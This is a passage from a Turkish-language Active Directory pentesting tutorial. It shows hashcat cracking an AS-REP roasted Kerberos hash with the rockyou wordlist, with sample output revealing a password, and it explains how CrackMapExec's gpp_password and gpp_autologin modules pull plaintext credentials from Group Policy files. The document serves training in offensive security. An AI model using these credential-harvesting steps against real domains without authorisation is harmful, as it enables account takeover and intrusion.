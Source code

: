 ```
45f60f37c5153369101af2b4294906c729a516fdea8c474f5e470d4d465bfa5d43dbbfe8e4
5cc1f1d12b0802796af3dd629f5be07282c9024be029ffb1c6243f0139a943b89952833a7a
7794ac77372dc107fbd14cd6ebe084a6c3123651d75ddd46a7406d68a8711e8e11257cfdda
71e0c13c8f5a9852afb0a0b9e3acc8856655987d3725f495e15ee56fb94f10df0a247d04ef
967b252000782b8debb410cb7a4f60a2704b3aa8a3ed3d444d2b6d2e96bb93086bb64407a1
cd4b240cb41955b446753795e2855f54d11d49360a5998df52a9a92f761477e66fc01972cb
46b818a680c7f97854
```

Tüm hash'leri aldıktan sonra, `18200` modülü ile `Hashcat`'i kullanabilir ve bunları kırmayı deneyebiliriz. `rockyou.txt` kelime listesini kullanalım ve bu hash'leri kırmaya çalışalım:


### Password Cracking

```
hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
<SNIP>
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386
[email
protected]:40d78fb0fd99b5070f8e519670e72f01$728671cd74bfb9b009f4e4dc7b5206
e4f45c3497b1e097fb47d9ddcee8211928d857cd8d11e6c7b9e4ced73806974a8db226c3cf
b14962cab03f7c6d85c5670ecbcf513d99d28f1e6445de81c7ee3c29641eb633457ed7b53d
40deba514a2e06d08759111628afd9b91a683622b6fed872d85f6a2e083237d4bb8d3ac43d
dd4fb7198389969bcc6282066fd34fcf06945806679e5eccc215a7034ac88bb2f2f068a4fb
176bcc3a48396cdf152614ec8a634bac8745e18e23d135afef234def28c53a74e930c315c8
666de1d63165317c7454460af3bf711a5c3006f498d2a1ee532cf537b97a991a2dc71d6de9
5ae8ca64c2c7cd8301:Password!
<SNIP>
```

Domain üzerinde geçerli bir hesap bulmanın başka bir yolunu bulduk, bu da ortam hakkında çok daha fazla bilgi toplamamızı ve belki de hosts veya diğer kullanıcıları tehlikeye atmaya başlamamızı sağlayacaktı

----

### Group Policy Objelerinde Hesapları Arama

Bir hesabın kontrolünü ele geçirdiğimizde, gerçekleştirmemiz gereken bazı zorunlu kontroller vardır. `Group Policy Objects'de (GPO)` yazılı kimlik bilgilerini aramak, özellikle eski bir ortamda (Windows server 2003 / 2008) işe yarayabilir, çünkü her domain kullanıcısı `GPO`'ları okuyabilir.

CrackMapExec, tüm GPO'ları arayacak ve ilginç kimlik bilgilerini bulacak iki modüle sahiptir. `gpp_password` ve `gpp_autologin` modüllerini kullanabiliriz. İlk modül olan gpp_password, `Group Policy Preferences (GPP)` aracılığıyla gönderilen hesaplar için düz metin parolasını ve diğer bilgileri alır. Bu saldırı hakkında daha fazla bilgiyi [Password Discovery and Group Policy Preference Abuse in SYSVOL blog](https://adsecurity.org/?p=2288) yazısında okuyabilirsiniz. İkinci modül olan `gpp_autologin`, `autologin` bilgilerini bulmak için Domain Controller'daki `registry.xml` dosyalarını arar ve varsa kullanıcı adını ve açık metin parolasını döndürür.
